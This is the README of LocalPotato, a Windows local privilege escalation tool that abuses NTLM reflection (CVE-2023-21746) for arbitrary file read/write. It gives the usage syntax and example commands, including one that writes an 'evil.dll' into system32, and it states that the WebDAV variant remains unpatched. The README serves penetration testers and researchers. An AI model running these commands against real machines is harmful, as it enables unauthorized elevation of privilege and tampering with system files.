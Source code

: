 # LocalPotato
Another Local Windows privilege escalation using a new potato technique ;)

The LocalPotato attack is a type of NTLM reflection attack that targets local authentication. This attack allows for arbitrary file read/write and elevation of privilege. 

**NOTE: The SMB scenario has been fixed by Microsoft in the January 2023 Patch Tuesday with the [CVE-2023-21746](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-21746). If you run this exploit against a patched machine it won't work.** 

**NOTE2: The HTTP/WebDAV scenario is currently unpatched (Microsoft decision, we reported it) and works on updated systems.** 


More technical details at --> https://www.localpotato.com/localpotato_html/LocalPotato.html

## Usage

```

         LocalPotato (aka CVE-2023-21746 & HTTP/WebDAV)
         by splinter_code & decoder_it


Mandatory Args:
SMB:
        -i Source file to copy for SMB
        -o Output file for SMB - do not specify the drive letter
HTTP:
        -r host/ip for HTTP
        -u target URL for HTTP

Optional Args:
-c CLSID (Default {854A20FB-2D44-457D-992F-EF13785D2B51})
-p COM server port (Default 10271)

Examples:
- SMB:
         LocalPotato.exe -i c:\hacker\evil.dll -o windows\system32\evil.dll
- HTTP/WebDAV:
         LocalPotato.exe -r 127.0.0.1 -u /webdavshare/potato.local
```

## Demo

- SMB:
![image](https://user-images.githubusercontent.com/19797064/218135881-af046286-c299-4f08-856b-2265adc46e64.png)

- HTTP/WebDAV
![image](https://github.com/decoder-it/LocalPotato/assets/19797064/100db270-e1e2-44db-ae54-91c3a7cb9b15)


## Authors: 
- [@decoder_it](https://twitter.com/decoder_it)
- [@splinter_code](https://twitter.com/splinter_code)
